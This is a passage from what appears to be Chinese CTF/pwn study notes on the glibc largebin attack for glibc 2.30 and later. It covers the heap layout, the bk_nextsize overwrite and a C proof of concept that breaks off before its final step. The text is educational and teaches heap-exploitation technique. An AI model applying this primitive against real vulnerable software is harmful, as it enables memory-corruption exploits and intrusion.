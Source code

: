 ```
[0x80000 , …. )    126
```

来自[Roland师傅](https://bbs.kanxue.com/thread-262424.htm).

## glibc2.30 - latest 

实际上这个打法是全版本适用的，包括低版本。

### 利用方式

**堆块布置**

- 确保`chunk_a`位于`largebin`，`chunk_b`位于`unsortedbin`
- `chunk_a > chunk_b`

- `chunk_a`和`chunk_b`的大小属于同一个`largebin`

**漏洞利用**

- 修改`chunk_a`的`bk_nextsize`为要修改的地址减去`0x20`
- `malloc`一个较大值，将`chunk_b`挂入`largebin`时触发`largebin attack`

### 实现效果

任意地址写一个堆地址，即挂入`largebin`的`chunk_b`的地址

### 常用触发方式

至少需要`UAF`来修改`largebin`中`chunk`的`bk_nextsize`

### 图解

![largebin_attack_2.32](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/largebin_attack_2.32.png)

### POC

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    printf("In >= glibc2.30, we use a diffrent poc to change one value once a time.\n");

    size_t secret = 0;
    printf("Before attack the value of secret is %ld.\n", secret);

    // 申请两个chunk，其中chunk_a待会放到largebin，chunk_b放入unsortedbin，且chunk_a > chunk_b
    size_t* chunk_a = malloc(0x440);
    malloc(0x10);
    size_t* chunk_b = malloc(0x430);
    malloc(0x10);

    // 释放chunk_a到unsortedbin中后，申请一个更大的chunk使其置入largebin
    free(chunk_a);
    malloc(0x450);

    // 释放chunk_b到unsortedbin
    free(chunk_b);
    
    // 修改chunk_a的bk_nextsize为要修改的值减去0x20
    chunk_a[3] = (size_t)&secret - 0x20;
    
    // 申请一个更大的chunk，使得chunk_b被挂入largebin，同时触发largebin attack
```